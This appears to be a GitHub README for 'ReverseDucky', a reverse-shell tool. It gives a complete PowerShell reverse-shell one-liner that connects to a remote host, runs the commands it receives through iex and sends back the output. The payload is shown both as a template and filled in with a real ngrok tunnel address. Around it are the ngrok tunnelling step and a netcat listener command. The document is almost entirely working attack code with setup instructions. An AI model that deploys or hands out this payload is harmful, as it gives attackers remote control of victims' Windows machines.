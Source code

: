 # ReverseDucky
hahahaha quack quack!

Start tunneling...
```
ngrok tcp 1337
```

Sample ngrok output...
```
K8s Gateway API support available now: https://ngrok.com/r/k8sgb

Session Status                online
Account                       mkdirlove (Plan: Free)
Version                       3.8.0
Region                        Asia Pacific (ap)
Latency                       31ms
Web Interface                 http://127.0.0.1:4040
Forwarding                    tcp://0.tcp.ap.ngrok.io:16038 -> localhost:1337

Connections                   ttl     opn     rt1     rt5     p50     p90
                              11      0       0.00    0.00    33.52   223.30 
```
After running ngrok you will notice the value of "Forwarding". Edit the payload below and replace NGROK_IP AND NGROK_PORT with the data from the value of "Forwarding".

```
$client = New-Object System.Net.Sockets.TCPClient("{NGROK_IP}",{NGROK_PORT});$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

Example:
```
$client = New-Object System.Net.Sockets.TCPClient("0.tcp.ap.ngrok.io",16038);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

Open new terminal and run netcat listener and wait for a reverse connection from port 1337
```
nc -lvnp 1337
```
